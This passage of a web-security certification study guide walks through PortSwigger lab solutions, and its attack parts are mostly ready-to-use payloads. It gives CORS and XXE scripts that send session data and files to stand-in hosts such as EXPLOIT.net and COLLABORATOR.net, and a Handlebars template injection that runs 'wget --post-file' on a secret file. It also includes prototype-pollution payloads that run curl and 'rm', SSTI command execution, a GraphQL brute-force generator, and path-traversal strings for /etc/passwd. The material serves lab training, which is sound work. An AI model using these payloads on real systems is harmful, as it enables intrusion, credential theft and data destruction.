[PortSwigger Lab: URL-based access control can be circumvented](https://portswigger.net/web-security/access-control/lab-url-based-access-control-can-be-circumvented)  
  
### Trace to Admin  

>Unable to reach `/admin` portal, but when changing the GET request to `TRACE /admin` this response contain an `X-Custom-IP-Authorization: ` header.  
>Use the ***identified*** header to by access control to the admin authentication.  

  

```
GET /admin HTTP/2
Host: TARGET.net
X-Custom-Ip-Authorization: 127.0.0.1
Cookie: session=2ybmTxFLPlisA6GZvcw22Mvc29jYVuJm
```  

[PortSwigger Lab: Authentication bypass via information disclosure](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-authentication-bypass)  

-----

## GraphQL API  

[Identify GraphQL API](#identify-graphql-api)  
[GraphQL Reveal Credentials](#graphql-reveal-creds)  
[GraphQL Brute Force](#graphql-brute-force)  

### Identify GraphQL API  

>To ***identify*** if there is hidden GraphQL API endpoint send an invalid GET request endpoint and observe message `Not Found`, but when sending `/api` the response is `Query not present`.  

  

>Enumeration of the GraphQL API endpoint require testing with a universal query.  
>Modify GET request with query as a URL parameter `/api?query=query{__typename}`.  

>The below response validate the ***identity*** of GraphQL endpoint:  

```JSON
{
  "data": {
	"__typename": "query"
  }
}
```  

>Check introspection, with new request URL-encoded introspection query as a query parameter.  

```HTML
/api?query=query+IntrospectionQuery+%7B%0D%0A++__schema+%7B%0D%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A
```  

  

>Bypass introspection protection matching the **regex** filters, and modify the query to include a `%0a` newline character after `__schema` and resend.  

>Save the introspection response to file as `graphql.json`, and remove HTTP headers from the saved response file leaving only body.  

>On the InQL Scanner tab, load the file `graphql.json` and enter to scan API endpoint.  
>Expand scan results for the schema and find the `getUser` query.  
>In Repeater, copy and paste the getUser query as parameter and send it to the API endpoint discovered but first URL encode all characters.  

>Test alternative user IDs until the API confirms `carlos` user ID as 3.

  

>This give you sensitive information for a user on the system such as login token, login password information, etc.  

[PortSwigger Lab: Finding a hidden GraphQL endpoint](https://portswigger.net/web-security/graphql/lab-graphql-find-the-endpoint)  
  
### GraphQL Reveal Creds  

>Intercept the login POST request to the target. ***Identify*** the GraphQL mutation contain the username and password.  

  

>Copy the URL of the `/graphql/v1` POST request and past into the ***InQL Scanner*** tab to scan API.  

  

>There is a getUser query that returns a user's username and password. This query fetches the relevant user information via a direct reference to an id number.  

>Modify a request by replacing the inQL tab query value to the below discovered `getuser` query from scanner.  
>In the POST JSON body remove the `operationName` property and value.  

  

>Log in to the site as the administrator, and gain access to the Admin panel.  

[PortSwigger Lab: Accidental exposure of private GraphQL fields](https://portswigger.net/web-security/graphql/lab-graphql-accidental-field-exposure)  

### GraphQL Brute Force  

>The login API is protected by rate limiter to protect against brute force attacks.  
>Sending too many incorrect login attempts to the API, rate limit protection response message response is ***identified***.  

```graphql
{  "errors": [
    {
      "path": [
        "login"
      ],
      "extensions": {
        "message": "You have made too many incorrect login attempts. Please try again in 1 minute(s)."
      },
      "locations": [
        {
          "line": 3,
          "column": 9
        }
      ],
      "message": "Exception while fetching data (/login) : You have made too many incorrect login attempts. Please try again in 1 minute(s)."
    }
  ],
  "data": {
    "login": null
  } }
```  

>Using the following PortSwigger JavaScript to generate a list of login combination with [password wordlist](https://portswigger.net/web-security/authentication/auth-lab-passwords) as part of brute force attack that bypass rate limiting protection.  

```javascript
copy(`123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`.split(',').map((element,index)=>`
bruteforce$index:login(input:{password: "$password", username: "carlos"}) {
        token
        success
    }
`.replaceAll('$index',index).replaceAll('$password',element)).join('\n'));console.log("The query has been copied to your clipboard.");
```  

  

>Using the output from the above JavaScript, and place it in the InQL tab of the login POST request `POST /graphql/v1 HTTP/2`, removing the `operationName` POST body parameter and value, before sending single request containing all possible passwords in the GraphQL query.  

  

>Response from the single POST request is one value marked `true` and the client login token return in response.  

>Replace the cookie in browser to impersonate Carlos user session.  

[PortSwigger Lab: Bypassing GraphQL brute force protections](https://portswigger.net/web-security/graphql/lab-graphql-brute-force-protection-bypass)  
  
-----

## CORS  

[Trusted insecure protocols](#trusted-insecure-protocols)  
[Null origin trusted](#null-origin-trusted)  

### Trusted insecure protocols  

>***Identify*** in the `source code` the account details are requested with AJAX request and it contains the user session cookie in the response.  

  

>Test if the application CORS configuration will allow access to sub-domains using below test header. If response include the `Access-Control-Allow-Origin` header with the origin reflect it is vulnerable to **CORS**.  

```
Origin: http://subdomain.TARGET.NET
```  

>The target call subdomain to retrieve stock values, and the `productid` parameter is vulnerable to cross-site scripting (XSS).

  

>Place code in the exploit server body and **Deliver exploit to victim** to steal the AJAX session token and API key. In the BSCP exam use the [CORS](#cors) vulnerability to steal JSON data that also include the administrator session token, and can be used to escalate privilege.  

```html
<script>
    document.location="http://stock.TARGET.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://TARGET.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://EXPLOIT.NET/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```  

[PortSwigger Lab: CORS vulnerability with trusted insecure protocols](https://portswigger.net/web-security/cors/lab-breaking-https-attack)  
  
### Null origin trusted  

>Identify the CORS insecure configuration by checking the AJAX response if it contains the `Access-Control-Allow-Credentials`, then add header `Origin: null`. If the `null` origin is reflected in the `Access-Control-Allow-Origin` header it is vulnerable.  

>Payload that may work in BSCP exam to obtain the administrator account API and session cookie data. Host on exploit server.  

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://TARGET.net/account_api/?EPOCHtime=1679134272000',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://EXPLOIT.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```  

  

[PortSwigger Lab: CORS vulnerability with trusted null origin](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)  
  
-----

# Data Exfiltration  

## XXE Injections  

[XXE Identify](#identify-xml)  
[XXE Xinclude file read](#xinclude-file-read)  
[XXE DTD Blind Out-of-band](#dtd-blind-out-of-band)  
[XXE DTD Blind Error messages](#dtd-blind-error-messages)  
[XXE SQLi inside XML + HackVertor](#sql--xml--hackvertor)  
[XXE perform SSRF](#xxe--ssrf)  
[XXE with SVG upload](#xxe-via-svg-image-upload)  
[HackTheBox XML External Entity Injection - Private Github](https://github.com/botesjuan/cpts-quick-references/blob/main/module/Web-Attacks.md#xxe)  
  
>File upload or user import function on web target use XML file format. This can be vulnerable to XML external entity (XXE) injection.  

### Identify XML

>Possible to find XXE attack surface in requests that do not contain any XML.  

>To ***Identify*** XXE in not so obvious parameters or requests, require adding the below and URL encode the **&** ampersand symbol to see the response.  

```xml
%26entity;
```  

>Below the server respond with indication that XML Entities are not allowed for security reasons.  


### Xinclude file read  

>Webapp **Check Stock** feature use server-side XML document that is server side parsed inside XML document, and request is not constructed of the entire XML document, it is not possible to use a hosted DTD file. Injecting an **XInclude** statement to retrieve the contents of ```/home/carlos/secret``` file instead.  

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///home/carlos/secret"/></foo>
```  

  

>URL encode the XXE payload before sending.  

```xml
<foo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude"><xi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/hostname"/></foo>
```  
  
[PortSwigger Lab: Exploiting XInclude to retrieve files](https://portswigger.net/web-security/xxe/lab-xinclude-attack)  

### DTD Blind Out-of-band  

>On the exploit server change the hosted file name to ```/exploit.dtd``` as the exploit file with **Document Type Definition (DTD)** extension, containing the following payload. The ```&#x25;``` is the Unicode hex character code for percent sign ```%```. **[Parameter entities](https://academy.hackthebox.com/module/134/section/1206)** are referenced using the **percent** character instead of the usual ampersand.  

```xml
<!ENTITY % file SYSTEM "file:///home/carlos/secret">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://COLLABORATOR.net/?x=%file;'>">
%eval;
%exfil;
```  
  
  

>Modify the file upload XML body of the request before sending to the target server.  

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE users [<!ENTITY % xxe SYSTEM "https://EXPLOIT.net/exploit.dtd"> %xxe;]>
<users>
    <user>
        <username>Carl Toyota</username>
        <email>carlos@hacked.net</email>
    </user>    
</users>
```  

  

[PortSwigger Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)  

>**Rabbit hole:** The submit feedback and screenshot upload on feedback is not to be followed by ***Neo*** down the Matrix.  
  
### DTD Blind Error messages  

>Trigger XML parsing errors in such a way that the error messages contain sensitive data. If the out of band to Collaborator payload above do not work test if the target will call a ```exploit.dtd``` file with invalid reference and return response in an error message.  

>Hosted on exploit server the ```/exploit.dtd``` file and body contents to ```file:///invalid/``` path.  

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```  

>On the stock check XML post request insert the payload between definition and first element.  

```xml
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://EXPLOIT.net/exploit.dtd"> %xxe;]>
  <stockCheck>
    <productId>
	  1
	</productId>
	<storeId>
	  1
	</storeId>
</stockCheck>
```  

  

[PortSwigger Lab: Exploiting blind XXE to retrieve data via error messages](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages)  

>**Rabbit hole:** The submit feedback and screenshot upload on feedback is for ***Neo*** to follow ***Trinity*** in the Matrix.  
  
### SQL + XML + HackVertor 

>The combination of vulnerabilities are ***identified*** in a XML Post body and inserting mathematical expression such as **7x7** into field and observing the evaluated value. Using this type of XML and SQL injection with WAF filter bypass via encoding may allow extract of sensitive data.  

  

>WAF detect attack when appending SQL query such as a UNION SELECT statement to the original store ID. Web application firewall (WAF) will block requests that contain obvious signs of a SQL injection attack.

```sql
<storeId>1 UNION SELECT NULL</storeId>
```  

>Bypass the WAF, Use Burp extension **[Hackvertor](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100)** to [obfuscate](#obfuscation) the SQL Injection payload in the XML post body. 

  

>Webapp return one column, thus need to concatenate the returned usernames and passwords columns from the users table.  
 
```xml
<storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users<@/hex_entities></storeId>
```  

  

>Below is sample SQLi payloads to read local file, or output to another folder on target.  

```sql
<@hex_entities>1 UNION all select load_file('/home/carlos/secret')<@/hex_entities>  

<@hex_entities>1 UNION all select load_file('/home/carlos/secret') into outfile '/tmp/secret'<@/hex_entities>
```  

[PortSwigger Lab: SQL injection with filter bypass via XML encoding](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)  
  
-----

## SSRF - Server Side Request Forgery  

[SSRF blacklist filter](#ssrf-blacklist-filter)  
[SSRF via Absolute GET URL + HOST Header](#absolute-get-url--host-ssrf)  
[SSRF inside XXE](#xxe--ssrf)  
[SSRF HOST Routing-based](#host-routing-based-ssrf)  
[SSRF inside HTML-to-PDF](#html-to-pdf)  
[SSRF Open Redirection](#ssrf-open-redirection)  
[SSRF Consecutive Connection State](#host-connection-state)  

>SSRF attack cause the server to make a connection to internal services within the organization, or force the server to connect to arbitrary external systems, potentially leaking sensitive data. Burp scanner may detect SSRF issue as an, `External service interaction (HTTP)`.  
  
>SSRF Sample payloads.  

```html
/product/nextProduct?currentProductId=6&path=https://EXPLOIT.net  

stockApi=http://localhost:6566/admin  

http://127.1:6566/admin  

Host: localhost
```  

>Alternative IP representation of ```127.0.0.1```:  
1. 2130706433  
2. 017700000001  
3. 127.1  
  
### SSRF blacklist filter  

>***Identify*** the SSRF in the `stockAPI` parameter, and bypass the block by changing the URL target localhost and admin endpoint to: `http://127.1/%2561dmin`.  

>Double URL encode characters in URL to **Obfuscate** the `a` to `%2561`, resulting in the bypass of the blacklist filter.  

  

[PortSwigger Lab: SSRF with blacklist-based input filter](https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter)  
  
### Absolute GET URL + HOST SSRF

>***Identify*** SSRF flawed request parsing vulnerability by changing the `HOST` header to Collaborator server and providing an absolute URL in the GET request line and observe the response from the Collaborator server.  

```html
GET https://TARGET.net/
Host: COLLABORATOR.NET
```  

  

>Use the Host header to target 192.168.0.141 or ```localhost```, and notice the response give 302 status admin interface found. Append /admin to the absolute URL in the request line and send the request. Observe SSRF response.  

  

```
GET https://TARGET.net/admin/delete?csrf=cnHBVbOPl7Bptu3VCXQZh6MUYzMsEXgO&username=carlos HTTP/1.1
Host: 192.168.0.114
Cookie: session=PQcb5CMC9ECh5fBobuxSalaBdxyLis01
```  

[PortSwigger Lab: SSRF via flawed request parsing](https://portswigger.net/web-security/host-header/exploiting/lab-host-header-ssrf-via-flawed-request-parsing)  
  
### SSRF redirect_uris  

>POST request to register data to the client application with redirect URL endpoint in JSON body. Provide a redirect_uris array containing an arbitrary white-list of callback URIs. Observe the redirect_uri.  

```html
POST /reg HTTP/1.1
Host: oauth-TARGET.web-security-academy.net
Content-Type: application/json
Content-Length: 206

{
"redirect_uris":["https://example.com"],
    "logo_uri" : "https://Collaborator.com",
	"logo_uri" : "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
	
}  
```  

  

[PortSwigger Lab: SSRF via OpenID dynamic client registration](https://portswigger.net/web-security/oauth/openid/lab-oauth-ssrf-via-openid-dynamic-client-registration)  

### XXE + SSRF

>Exploiting XXE to perform SSRF attacks using stock check function that obtains sensitive data.  

```xml

<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://localhost:6566/latest/"> ]>
  <stockCheck>
    <productId>
      &xxe;
    </productId>
    <storeId>
      1
    </storeId>
  </stockCheck>  
```  

  

[PortSwigger Lab: Exploiting XXE to perform SSRF attacks](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf)  
  
### HOST Routing-based SSRF  

>***Identify*** routing-based SSRF by altering the **host** header on request and observe the response. Routing-based SSRF via the Host header allow insecure access to a localhost Intranet.  

```
GET / HTTP/1.1
Host: 192.168.0.§0§
```  
  
  

>**Note:** Once access gained to the internal server admin portal, the response indicate the form requires a POST request and CSRF token, so we convert the GET request to POST as below.  

```html
POST /admin/delete HTTP/1.1
Host: 192.168.0.135
Cookie: session=TmaxWQzsf7jfkn5KyT9V6GmeIV1lV75E
Sec-Ch-Ua: "Not A(Brand";v="24", "Chromium";v="110"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://TARGET.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 53

csrf=ftU8wSm4rqdQ2iuSZUwSGmDnLidhYjUg&username=carlos
```  

[PortSwigger Lab: Routing-based SSRF](https://portswigger.net/web-security/host-header/exploiting/lab-host-header-routing-based-ssrf)  

### HTML to PDF  

>**Identify** a PDF download function and the `source code` uses ```JSON.stringify``` to create html on download. This HTML-to-PDF framework is vulnerable to SSRF attack. Partial `source code` for JavaScript on the target ```downloadReport.js```.  

```JavaScript
function downloadReport(event, path, param) {

body: JSON.stringify({
  [param]: html
  }
  )
  
```  

>**Note:** The `<div>` tag defines a division or a section in an HTML document. The <div> tag is used as a container for HTML elements - which is then styled with CSS. [z3nsh3ll explain HTML DIV demarcation and SPAN different ways to style the elements.](https://youtu.be/5djtMMciBlw)   

```html
<div><p>Report Heading by </p>
```  

>Identify file download HTML-to-PDF convert function on target is vulnerable.  

```JavaScript
<script>
	document.write('<iframe src=file:///etc/passwd></iframe>');
</script>
```  

>Libraries used to convert HTML files to PDF documents are vulnerable to server-side request forgery (SSRF).  

[PortSwigger Research SSRF](https://portswigger.net/daily-swig/ssrf)  

>Sample code below can be injected on vulnerable implementation of HTML to PDF converter such as ```wkhtmltopdf``` to read local file, resulting in [SSRF to Local File Read Exploit in Hassan's blog](http://hassankhanyusufzai.com/SSRF-to-LFI/).  

>Thehackerish showing wkHTMLtoPDF exploitation using [root-me.org - Gemini-Pentest-v1](https://www.root-me.org/) CTF lab in the video [Pentest SSRF Ep4](https://youtu.be/Prqt3N5QU2Q?t=345) by editing the name of the admin profile with HTML content it is then generated server side by including remote or local files.  
  
  

```html
<html>
 <body>
  <script>
   x = new XMLHttpRequest;
   x.onload = function() {
    document.write(this.responseText)
   };
   x.open("GET", "file:///home/carlos/secret");
   x.send();
  </script>
 </body>
</html>
```  

>JSON POST request body containing the HTMLtoPDF formatted payload to read local file.  

```JSON
{
 "tableHtml":"<div><p>SSRF in HTMLtoPDF</p><iframe src='file:///home/carlos/secret' height='500' width='500'>"
}
```  

  

>Above the display name is injected with ```HTML``` payload and on export the HTML-to-PDF converter perform SSRF.  
  
>The PDF creator: wkhtmltopdf 0.12.5 is known for SSRF vulnerabilities, and in [HackTricks - Server Side XSS - Dynamic PDF](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf) there is cross site scripting and server side exploits documented.  
  
### SSRF Open Redirection  

>The target make **GET** request to the ***next product*** on the e-commerce site, using a **path** parameter. On the stockAPI POST request the value provided in body data is the partial path to internal system. See product page `source code` below.  

  
  
>The ***identification*** of this vulnerability is by testing various paths and observing the input path specified is reflected in the response **Location** header.  

  

>In this lab they state the admin interface is at ```http://192.168.0.12:8080/admin``` but in exam use the ```localhost:6566```.  
  
```
https://TARGET.net/product/nextProduct?currentProductId=1&path=http%3a//192.168.0.12%3a8080/admin
```  

>On the POST stock request, replace the StockAPI value with the partial path, not the absolute URL, from the ```nextProduct``` GET request URL as the value of the ```stockAPI``` parameter.  

```
stockApi=/product/nextProduct?currentProductId=1&path=http%3a//192.168.0.12%3a8080/admin
```  

>URL-encode payload  

```
stockApi=%2fproduct%2fnextProduct%3fcurrentProductId%3d1%26path%3dhttp%253a%2f%2f192.168.0.12%253a8080%2fadmin
```  

  

[PortSwigger Lab: SSRF with filter bypass via open redirection vulnerability](https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection)  
  
-----

## SSTI - Server Side Template Injection  

[SSTI Identified](#ssti-identified)  
[Tornado](#tornado)  
[Django](#django)  
[Freemarker](#freemarker)  
[ERB](#erb)  
[Handlebars](#handlebars)  

>Use the web framework native template syntax to inject a malicious payload into a **{{input}}**, which is then executed server-side. Submitting invalid syntax will often result in error message that lead to ***identifying*** the template framework. Use PortSwigger [template decision tree](https://portswigger.net/web-security/images/template-decision-tree.png) to aid in ***identification***.  

### SSTI Identified  

>SSTI can be ***identified*** using the tool [SSTImap](https://github.com/vladko312/SSTImap). The limitations of this tool is that the template expression ```{{7*7}}``` results are sometimes only evaluated by another GET request or calling another function in the application, as the **output** is not directly reflected or echoed into the response where the template expression was posted.  
>Alternative way to ***identify*** the template framework is to induce error message by injecting malformed user supplied payloads.  

[Tib3rius give great SSTI explanation on this PortSwigger Web Academy labs tutorial](https://youtu.be/p6ElHfcnlSw)  

```bash
python /opt/SSTImap/sstimap.py --engine erb -u https://TARGET.net/?message=Unfortunately%20this%20product%20is%20out%20of%20stock --os-cmd "cat /home/carlos/secret"
```  

>POST request with the data param to test and send payload using SSTImap tool.  

```bash
python /opt/SSTImap/sstimap.py -u https://TARGET.net/product/template?productId=1 --cookie 'session=StolenUserCookie' --method POST --marker fuzzer --data 'csrf=ValidCSRFToken&template=fuzzer&template-action=preview' --engine Freemarker --os-cmd 'cat /home/carlos/secret'
```  

  

>SSTI payloads to manually ***identify*** vulnerability.  

```
${{<%[%'"}}%\.,
}}{{7*7}} 

{{fuzzer}}
${fuzzer}
${{fuzzer}}

${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
${foobar}


```  

### Tornado  

>***Identification*** of tornado template framework after testing injection with ```}}{{ 7*7}}```.  

  

>Tornado Template can be ***identified*** using a ```}}{{ 7*7}}``` payload that breakout of current expression and evaluate `7*7`.  

>The **preferred name** functionality in the user account profile page is altered and on blog post comment the output displayed.  

```
POST /my-account/change-blog-post-author-display HTTP/2
Host: TARGET.net
Cookie: session=fenXl1hfjQBgGkrcmJoK7D8RU3eHkkCd

blog-post-author-display=user.name}}{%25+import+os+%25}{{os.system('cat%20/home/carlos/secret')
```  

  

>Data extracted from the output response when reloading the blog comment previously saved by a logged in user after changing their preferred display name.  

  

[Lab: Basic server-side template injection code context](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context)  

### Django  

>Django Template uses ```debug``` tag to display debugging information.  

```
${{<%[%'"}}%\,
 
{{settings.SECRET_KEY}}
```  

  

[PortSwigger Lab: Server-side template injection with information disclosure via user-supplied objects](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-information-disclosure-via-user-supplied-objects)  

### Freemarker  

>Freemarker Template Content-Manager (C0nt3ntM4n4g3r)  

```
${foobar}
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("cat /home/carlos/secret") }
```  

  

[PortSwigger Lab: Server-side template injection using documentation](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-using-documentation)  

### ERB  

>Identify ERB template in a `GET /?message=Unfortunately%20this%20product%20is%20out%20of%20stock HTTP/2` request that then reflects the message value in the response, `Unfortunately this product is out of stock`.  

```
fuzzer${{<%[%'"}}%\<>
<%= 7*7 %>
```  

>ERB Template documentation reveals that you can list all directories and then read arbitrary files as follows:  

```erb
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>

<%= system("cat /home/carlos/secret") %>
```

  
  
[PortSwigger Lab: Basic server-side template injection](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic)  

### Handlebars  

>Handlebars Template can be identified by injecting below set of characters and not encoding them into the `GET /?message=Unfortunately this product is out of stock` parameter. [SSTIMAP](https://github.com/vladko312/SSTImap) was not able to identify this handlebars SSTI vulnerability.  

Use fuzzer payload to produce error message that ***identify*** handlebars template engine.  

```
fuzzer${{<%[%'"}}%\,<>
```  

  

>[URL encoding](https://www.urlencoder.org/) the payload, it is not required to remove newline breaks or spaces. The payload will send the contents of `/home/carlos/secret` to Burp Collaborator.  

```
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('wget https://COLLABORATOR.net --post-file=/home/carlos/secret');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```

  

[PortSwigger Lab: Server-side template injection in an unknown language](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit)  
  
[PortSwigger Research SSTI](https://portswigger.net/research/server-side-template-injection)  

>Note: ***Identify*** the Update forgot email template message under the admin_panel at the path /update_forgot_email.  

-----

## SSPP - Server Side Prototype Pollution  

>The application run `Node.js` and the Express framework. It is vulnerable to server-side prototype pollution (SSPP) because it unsafely merges user-controllable input into a server-side JavaScript object.  

>SSPP Exploit steps:  

1. Find a prototype pollution source that you can use to add arbitrary properties to the global Object.prototype.  
2. Identify a gadget that you can use to inject and execute arbitrary system commands.  
3. Trigger remote execution of a command that deletes the file /home/carlos/morale.txt.  

>***Identify*** prototype pollution  

```JSON
"__proto__": {
    "json spaces":10
}
```  

>Test for remote code execution (RCE) by performing DNS request from back-end.  

```JSON
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('curl https://COLLABORATOR.com')"
    ]
}
```  

Inject exploit in to read or delete user sensitive data. After injection, trigger new spawned node child processes, by using admin panel maintenance jobs button. This will action on Carlos `secret` file.  

```JSON
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
    ]
}
```  

  

[PortSwigger Lab: Remote code execution via server-side prototype pollution](https://portswigger.net/web-security/prototype-pollution/server-side/lab-remote-code-execution-via-server-side-prototype-pollution)  

-----

## File Path Traversal

[HackTheBox CPTS File Inclusion](https://github.com/botesjuan/cpts-quick-references/blob/main/module/File%20Inclusions.md)  
[LFI Attacks](#lfi-attacks)  
[Admin Portal Files](#admin-portal-files)  
[Path Traversal Authz](#path-traversal-authz)  
  
### LFI attacks  

>[Rana Khalil Directory traversal training](https://youtu.be/XhieEh9BlGc) demo show the attacks that allow the malicious actor to read file on the server.  
>***Identify*** web parameters such as `filename=` that are requesting files from target.  

1. Application blocks traversal sequences but treats the supplied filename as being relative to a absolute path and can be exploit with ```/etc/passwd```absolute path to target file payload.  
2. Images on target is loaded using ```filename``` parameter, and is defending against traversal attacks by stripping path traversal. Exploit using ```....//....//....//....//etc/passwd``` payloads.  
3. Superfluous URL-encoded ```..%252f..%252f..%252fetc/passwd``` payload can bypass application security controls.  
4. Leading the beginning of the filename referenced with the original path and then appending ```/var/www/images/../../../etc/passwd``` payload at end bypasses the protection.  
5. Using a **null** byte character at end plus an image extension to fool APP controls that an image is requested, this ```../../../etc/passwd%00.png``` payload succeed.  
6. Double URL encode file path traversal, as example this `../../../../../../../../../../etc/hostname` will be URL double encoded as, `%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fhostname`.  
7. Windows OS accept both `../` and `..\` for directory traversal syntax, and as example retrieving `loadImage?filename=..\..\..\windows\win.ini` on windows target to ***identify*** valid path traversal.  
8. [PHP Wrapper, expect & filter](https://github.com/botesjuan/cpts-quick-references/blob/main/module/File%20Inclusions.md#remote-code-execution) pose vulnerability that allow traversal bypass to result in remote code execution (RCE) critical. Using [PHP filter chain generator](https://github.com/synacktiv/php_filter_chain_generator) to get your RCE without uploading a file if you control entirely the parameter passed to a require or an include in PHP! See [Tib3rius YouTube demo](https://youtu.be/OGjpTT6xiFI?t=1019) ```python php_filter_chain.generator.py --chain '<?=`$_GET[0]`; ?>' | tail -n 1 | urlencode``` 
  
>Corresponding PortSwigger Directory traversal labs.  

1. [PortSwigger Lab: File path traversal, traversal sequences blocked with absolute path bypass](https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass)  
2. [PortSwigger Lab: File path traversal, traversal sequences stripped non-recursively](https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively)  
